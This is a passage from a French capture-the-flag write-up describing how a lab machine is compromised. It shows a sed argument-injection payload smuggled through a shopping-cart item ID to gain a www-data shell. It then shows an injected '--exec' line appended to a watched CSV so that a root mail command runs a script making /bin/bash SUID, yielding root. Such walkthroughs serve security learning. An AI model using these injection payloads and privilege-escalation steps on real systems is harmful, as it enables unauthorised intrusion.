 [https://gtfobins.github.io/gtfobins/sed/](https://gtfobins.github.io/gtfobins/sed/) 

Sauf qu’il faut utiliser le flag -e pour donner un script plutôt que d’écrire la commande, à cause des vérifs faites en amont.

Voici notre payload:

```bash
' -e "1e /tmp/shell.sh" /tmp/shell.sh '
```

On crée donc le shell en premier. Ensuite il faut ajouter un item dans notre panier pour qu’il apparaisse dans la liste des fichiers du panier sur la machine. On modifie le fichier pour changer son item_id et y insérer le notre. Ensuite on intercepte la requête avec burp lorsque l’on delete l’objet du panier. Ici il faut encoder en URL notre payload. On obtient alors un shell en tant que www-data.

On remarque ceci dans ps -aux:

```bash
inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
```

En regardant le fichier on voit qu’il lance la commande mail en tant que root lors que l’on modifie ce fichier via la notification de modification: **[https://gtfobins.github.io/gtfobins/mail/](https://gtfobins.github.io/gtfobins/mail/)**

```bash
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
```

On créée alors un script root.sh:

```bash
#!/bin/bash
chmod +s /bin/bash
```

On exploite alors la faille:

```bash
echo '" --exec="\!/tmp/root.sh"' >> leave_requests.csv
```

Et on a enfin le flag ! 

```bash
/bin/bash -p
whoami
root
cd /root
cat root.txt
```